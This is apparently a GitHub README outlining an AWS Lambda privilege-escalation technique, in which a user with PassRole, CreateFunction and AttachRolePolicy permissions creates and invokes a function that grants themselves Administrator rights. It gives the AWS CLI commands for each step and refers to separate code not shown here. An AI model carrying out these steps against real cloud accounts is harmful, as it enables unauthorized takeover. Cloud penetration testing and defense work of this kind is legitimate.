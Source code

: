 # AWS Lambda Privilege Escalation

### If we have a user with PassRole and CreateFunction roles and also AttachRolePolicy role in a Lambda Function, its possible to create a function with a code that changes the lambda role to admin then the user to Administrator.

#### 1) Create a Lambda function and attach a role to it

    aws lambda create-function --function-name MY_FUNCTION --runtime python3.7 --zip-file CODE.ZIP 

## Inside the function's code, we will add the administrator permission to the role and to the user

### Example code: See the function code section in this repo (Admin.py)

#### 2) Invoke a lambda function

    aws lambda invoke --function-name NAME response.json --region REGION 

#### 3) Listing managed policies to see if the change worked

    aws iam list-attached-user-policies --user-name USER_NAME 
